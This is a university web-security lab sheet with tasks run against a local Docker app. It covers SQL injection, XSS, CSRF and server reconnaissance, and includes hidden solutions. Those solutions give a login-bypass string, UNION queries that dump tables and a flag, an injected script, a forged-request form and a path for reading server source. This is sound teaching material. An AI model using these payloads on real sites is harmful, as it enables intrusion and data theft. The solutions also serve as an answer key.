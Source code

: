 /* ~~SHOWSOLUTION~~ */

====== Lab 08 - Web Security ======

===== Objectives =====
  * Web vulnerabilities, both server-side and client-side
  * Server-side SQL injection
  * Cross-Site Scripting, Cross-Site Request Forgery

===== Background =====

==== SQL Injection ====

SQL Injection is a server-side code injection vulnerability resulting from
improper (unsanitized) input directly concatenated into SQL queries.
Typical server queries are built as strings:
<code javascript>
sql = "SELECT * FROM table WHERE item = '" + user_input_variable + "' <other expressions>";
database.query(sql);
</code>

Note that the user may choose to escape the SQL quotes and alter the SQL statement, e.g.:
<code javascript>
user_input_variable = "' OR 1=1 -- "; // example input given by the user
sql = "SELECT * FROM table WHERE item = '' OR 1=1 -- ' <other expressions>";
</code>

An SQL injection exploit ultimately depends on the target SQL expression (which
is usually unknown to the attacker) and query result behavior (whether the
query contents arem displayed on screen or the user is blind, errors reported
etc.).

**Make sure to check those cheatsheets out:** \\
[[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection]] \\
and:\\
[[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md]]

==== Other server-side vulnerabilities ====

The SQL injection is a popular server-side code injection vulnerability, but
there are many mistakes that a website developer / system administrator can
make (//expect to find some of them in your homework :P //):

  * code injection (LDAP, eval, shell execution etc.);
  * broken authentication or access control (authorization);
  * sensitive data exposure (e.g., backups / keys forgotten inside web root);
  * path traversal;
  * server misconfiguration;
  * //[[https://owasp.org/www-community/vulnerabilities/|and many more]]//

There are even
[[https://owasp.org/www-community/Vulnerability_Scanning_Tools|free or
commercial web vulnerability scanners]] for testing a server's sercurity!


==== Client-side vulnerabilities ====

Browsers are now among the most targeted pieces of software on the Internet.
This is mainly because of the large threat vector resulting from the complexity of
the web ecosystem, requiring features such as fancy HTML+CSS rendering,
animation and even sandboxed, untrusted JavaScript code execution.

Even when the browsers do a good job at protecting against attacks, sometimes
trusted websites themselved may contain bugs that directly affect the security
of their users.

A major threat, **Cross Site Scripting (XSS)** is a JavaScript code injection
vulnerability where an attacker that found a way to post public HTML scripts
into an unprotected website (e.g., by using comments forms or forum responses).
Those scripts, if served to other visitors, will execute with the credentials
of their respective users, making it possible for the attacker to scam,
exfiltrate personal data or even push malware into the victim's PC.

Another typical client-side vulnerability that the web developers need to
protect their websites against is
**[[https://research.securitum.com/what-is-the-csrf-cross-site-request-forgery-vulnerability/|Cross-Site
Request Forgery (CSRF)]]**.
In this attack, the victim is tricked into opening an attacker-controlled web
page which then issues custom requests (either using concealed elements that do
external requests - ''img'', ''form'', or by using JavaScript / AJAX) to
another (target) website. The browser will happily make the requests using the
target domain's cookies and credentials.
If the target website has URLs that execute certain actions (e.g., ''POST
https://my-blog/post.php'') without verifying the source of the request, any
malicious page can execute them.
Note that the attacker cannot see the results of those requests (unless
authorized by CORS headers by the target).
In practice, any URL endpoint executing sensitive actions needs to be protected
using either referer validation or CSRF tokens.

===== Setup =====

You will be using a [[https://cloud-controller.grid.pub.ro/|OpenStack VM]] for
your tasks.

Remember that the instances have private IPs, ''10.9.x.y'', inaccessible from
anywhere but the campus network. Since we need to use a local browser to access
a web server running inside the VM, we will employ a SSH tunnelling + proxy
trick to accomplish this.

First, copy your private key from **fep** to your workstation (since
authentication with the VM will be realized from your PC) \\
(//either do this, or assign a key existing on your machine to your OpenStack
account and VM instance)//:
<code bash>
scp <first.lastname>@fep.grid.pub.ro:.ssh/id_rsa ~/.ssh/fep_rsa  # (for *nixes)
chmod 700 ~/.ssh/fep_rsa  # required on *nix systems
</code>
Make sure to replace ''id_rsa'' from the remote server (fep) with your actual key name (if you didn't use the
default one). If you're on Windows / not WSL, please download the key to a path inside your home (last ''scp'' argument).

Connect to the VM using (**ssh on Linux / WSL**):
<code bash>
ssh -i <fep key path> -L "8080:localhost:8080" -o 'ProxyCommand=ssh <first.lastname>@fep.grid.pub.ro -W %h:%p' student@10.9.X.Y
# after entering the password for fep and trusting the server's public key,
# you should see the 'student@host:~$' prompt!
</code>

If you use **OpenSSH for Windows**, you must use the full path for ''ProxyCommand'':
<code bash>
ssh -i <fep key path> -L "8080:localhost:8080" -o 'ProxyCommand=C:\Windows\System32\OpenSSH\ssh.exe <first.lastname>@fep.grid.pub.ro -W %h:%p' student@10.9.X.Y
</code>

This uses //fep.grid.pub.ro// as a proxy (''-W'' is stdin/stdout forwarding),
successfully connecting to the SSH server running on the OpenStack VM
(inaccessible otherwise) and requesting it to forward (''-L <local
addr:port>:<remote addr:port>'') its HTTP server port (''localhost:8080'') back
to your phisical machine (same port, for convenience)!

**Note:** replace the ''<fep key path>'', ''<first.lastname>'' and ''X.Y'' placeholders with the
actual path to your SSH key / username / VM IP address!\\
You can use the same trick to forward any port from a OpenStack VM to your
local host!

<hidden>
For this lab, **you are required to take a screenshot proving each task's
completeness** (usually, of the exploited webpage).
For the SQL injection tasks, it would be nice if you saved a list of successful
inputs in a .txt file. For the XSS / CSRF injection tasks, please include the
HTML / JavaScript code you used into the archive.

Please upload the screenshots / readme to [[https://curs.upb.ro/mod/assign/view.php?id=280251|This Moodle Assignment]].
</hidden>

===== Tasks =====

=== 1 [20p]. SQL Injection ===

  * Start the web server by using the following sequence: <code bash>
# First, start the MySQL instance in background
docker run -d --rm --name mysql ropubisc/lab08-mysql
# Wait until the MySQL server fully starts:
docker logs mysql -f 
# Ctrl+C and continue when it says: 'mysqld: ready for connections.'

# Finally, start the sample web server
docker run -it --link mysql:mysql -p 8080:8080 ropubisc/lab08-web-server
</code>
  * Connect to the application using [[http://localhost:8080/]] (assuming you forwarded the port correctly)
  * Now: You don't know any user / password for this website. Try to log in using SQL Injection!
  * Hint: Try the apostrophe in one of the login fields, check if it shows an error!
  * If you ever want to exit the MySQL server:<code>
docker kill mysql
</code>

<solution -hidden>
Login with ''%%' OR 1=1 -- -%%''
</solution>

=== 2 [20p]. Advanced SQL Injection ===

  * Start the web server from the first task again.
  * What if I told you there is a hidden **flag** inside the database? Find it!
  * Hint: where do you have query feedback inside the application? try to do an ''UNION'' hack!
  * Note: for UNION to work, you must SELECT exactly the same number of columns as in the original query!\\ Check out the cheatsheets from the Background section + here's a UNION example: <code sql>
SELECT col1, col2... from tablename WHERE name='' UNION (SELECT 1, 2, ...)  -- bruteforce the number of columns! '
</code> (don't type this into the input field, extract the relevant parts!)
  * Hint: first, you need to discover the names of tables in the database (to avoid extra steps, the schema name is ''journalapp''); afterwards, find the column containing the flag, then extract it!

<solution -hidden>
Find the number of main table columns: ''%%asd' UNION (SELECT 1, 2, 3, 4) -- .%%''\\
Find the tables: ''%%' UNION SELECT 1, 2, 3, GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema='journalapp' -- .%%''\\
Find the columns: ''%%' UNION SELECT 1, 2, 3, GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='flags' -- .%%''\\
Find the flag: ''%%' UNION SELECT 1, 2, 3, flag FROM flags -- .%%''\\
</solution>

=== 3 [20p]. Cross-Site Scripting ===

  * You can still save the day: cover the monster's mouth (you can use the image at ''http://localhost:8080/images/muzzle.png'')!
  * Since HTML is allowed, you can also inject a JavaScript alert 
  * **Hint**: You can use absolute element positioning, e.g.: ''<div style="position: absolute; top: -300px; ...">...''. Try it with the browser's developer console / inspect element first before injecting it inside a message ;)

<solution -hidden>
Post some javascript!
<code>
<div style="position: absolute; top: -510px; left: 250px"><img src="/images/muzzle.png"></div>
<script>alert("No more Shosho, phew!");</script>
</code>
</solution>, phew

=== 4 [20p]. Cross-Site Request Forgery ===

  * The objective is to fool your victim using an external website (simulated using a local .html page) to post an attacker-controller message into the website.
  * On your local station, as the attacker: create a simple HTML page that posts a hidden message to [[http://localhost:8080/journal/post]]; this will be equivalent to hosting a malicious website;
  * Hint: Check the HTML of the website for a ''%%<form>%%'' example!
  * Hint: Use an input with ''%%type="hidden"%%''
  * Switching sides (you're the victim, now): open that HTML page using your web browser. Click a button and the hidden message will be posted ;)
  * (Make sure you are logged in inside the web app before doing the attack!)
  * For bonus, you can try to do a cross-site AJAX posting the message automatically (without requiring user interaction!).

<solution -hidden>
<code>
<form action="http://localhost:8080/journal/post" method="post">
<input type="hidden" name="message" value="I am stupid!">
<input type="submit" value="Click me!">
</form>
</code>
</solution>

=== 5 [20p]. Server Reconnaissance ===

  * Can you steal the source code of the server-side code using HTTP only?
  * Once you found it, try to find the database credentials!
  * Hint: try to guess the path to a [[https://docs.npmjs.com/files/package.json|common file]] that all NodeJS projects have! It may reference the main script's name!
  * Also try it by using a tool: [[https://cirt.net/nikto2|nikto]], ''apt install nikto''

<solution -hidden>
<code>
GET /package.json
it references the main file:
GET /server.js
</code>
</solution>

=== Feedback ===

Please take a minute to fill in the [[https://forms.gle/5Lu1mFa63zptk2ox9|feedback form]] for this lab.

